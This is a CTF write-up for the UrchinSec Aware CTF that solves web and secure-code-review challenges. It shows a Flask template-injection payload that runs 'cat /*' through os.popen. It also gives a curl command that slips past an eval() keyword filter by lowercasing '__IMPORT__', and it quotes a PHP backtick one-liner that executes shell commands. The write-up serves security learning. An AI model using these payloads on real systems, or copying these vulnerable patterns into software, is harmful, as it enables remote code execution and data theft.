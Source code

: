 ---------------

### CTF: URCHINSEC AWARE CTF

--------------

![image](https://github.com/user-attachments/assets/21dcb944-92b5-4150-b742-71e140fe3c3c)

--------------

### CHALLENGES:

- Web:
  - Notee
  - Pyrison
- Secure code Review:
  - Heart
  - Redhand
  - Syringe

-----------------

### WEB:

-----------------

### Notee:

![image](https://github.com/user-attachments/assets/55fbe0a9-917e-4d43-8538-fae02180f615)

- The challenge's main vulnerability is `Server Side Template Injection` and the code detailed below shows the sink.

```python3
@app.route('/<username>/note/<id>/comment', methods=['GET'])
def get_comments_note(username, id):
    note = Note.query.filter_by(id=id).first()
    if note is not None:
        # check if username inserted matches the note
        if note.username == username:
            return render_template_string(note.comment)
        else:
            return abort(403)
    else:
        return abort(404)
```
- Route `/<username>/note/<id>/comment` takes in the `comment` key retrieved from the `note` variable and passes it to `render_template_string` which is vulnerable to the sink.The note's variable is from the `POST` parameters filled in the index page.The main point to pass the payload is the `comment` input box.

```python3
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        title = request.form.get('title')
        description = request.form.get('description')
        comment = request.form.get('comment')
        user_ip = request.remote_addr
```

### Exploitation

- I added the payload below to the comment box.

```python3
{{x.__init__.__globals__['__builtins__']['__import__']('os').popen('cat /*').read()}}
```
![image](https://github.com/user-attachments/assets/c3b06971-5cb1-4841-b4b6-a2004079a935)

- I retrieved the flag with `curl`.

![image](https://github.com/user-attachments/assets/2a322d84-6257-434c-9963-4c673f03a37b)

- Flag-:```urchinsec{W3_KEEP_NOTES_SAfe_f0r_ouR_S3cr3t_r3cipesss}```

---------------------

### Pyrison

![image](https://github.com/user-attachments/assets/c714af89-b059-493c-9800-b1a93da2633c)

- This challenge requires blackbox testing because no source code was provided but based on the author's choice of name.I deduced that the backend is python and values are passed to `eval()` in python but some special keywords are filtered.
- I tested `7*7` and got the value `49` which signifies that my deductions are accurate.

![image](https://github.com/user-attachments/assets/113835e1-cf4c-49d3-aa86-eba45b42b466)

- I also tried `import` to import modules but I noticed that the author blacklisted it.

![image](https://github.com/user-attachments/assets/a1216e31-aacf-4ed6-9e02-6fe2b84ce1af)

- I tried the next method by passing `eval("__IMPORT__".lower())` which worked because the filter is not case sensitive and picks only `import` in lowercase and not in uppercase.I passed the uppercase `import` to the `lower()` to convert it to lowercase which is evaluated later with the `eval()` function.You can see below that we've successfully called the `import` function.

![image](https://github.com/user-attachments/assets/4e11ab0b-0e79-48e1-8d2d-a277e05cf148)

- Now,we can import module we like and gain RCE, I picked `os.popen` to read the flag.

Final Payload-:```curl https://urchinsec-pyrison.chals.io/test/trick -X POST -d "query=eval('__IMPORT__'.lower())('os').popen('cat /*').read()"```

![image](https://github.com/user-attachments/assets/cd7f553e-22bb-4214-9b41-ccf615fba9fb)

- Flag-:```urchinsec{H3r3_we_go_again_byp4ssing_evals_f0rFUN}```

--------------------------

### SECURE CODE REVIEW-:

### Heart:

![image](https://github.com/user-attachments/assets/106b5355-ae43-45c8-b05f-3ead6d015564)

- The code is vulnerable to `Server Side Template Injection` because of the `render_template_string()` function

![image](https://github.com/user-attachments/assets/a0af8189-3e30-449c-8eca-039b00730358)

- Flag-:```urchinsec{9_SSTI}```

### REDHAND

![image](https://github.com/user-attachments/assets/7ed21cf3-f607-4390-9110-1a05f7886780)

- The code is vulnerable to `command-injection` because php execute any code between backticks as system commands.

```<?=`$_GET[0]`?>```

- Flag-:```urchinsec{command_injection}```













